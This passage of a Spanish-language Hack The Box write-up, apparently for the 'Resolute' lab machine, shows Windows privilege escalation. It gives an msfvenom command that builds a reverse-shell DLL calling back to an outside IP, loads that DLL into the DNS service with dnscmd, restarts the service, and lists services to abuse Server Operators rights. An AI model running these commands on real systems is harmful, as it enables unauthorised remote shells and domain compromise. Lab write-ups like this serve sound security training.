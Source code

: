 ![https://rubbxalc.github.io/writeups/assets/img/Resolute-htb/1.png](https://rubbxalc.github.io/writeups/assets/img/Resolute-htb/1.png)

### Creación de binario para la reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -f dll -o pwned.dll
```

### Inserción en un servicio

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd /config /serverlevelplugindll \\10.10.16.9\shared\pwned.dll
```

### Reiniciar servicio

```
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns
```

## Abuso del grupo Server Operators

### Listar servicios

```
*Evil-WinRM* PS C:\Users\jorden\Documents> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe                                                           True aspnet_state
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5EB04B3D-85AE-4574-88FB-F22CF32D39F5}\MpKslDrv.sys       True MpKslDrv
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER                          True MSSQLSERVER
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"                                                     True SQLBrowser
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\SQLAGENT.EXE" -i MSSQLSERVER                         True SQLSERVERAGENT
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlceip.exe" -Service                                True SQLTELEMETRY
"C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"                                                            True SQLWriter
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\NisSrv.exe"                                              True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\MsMpEng.exe"
```
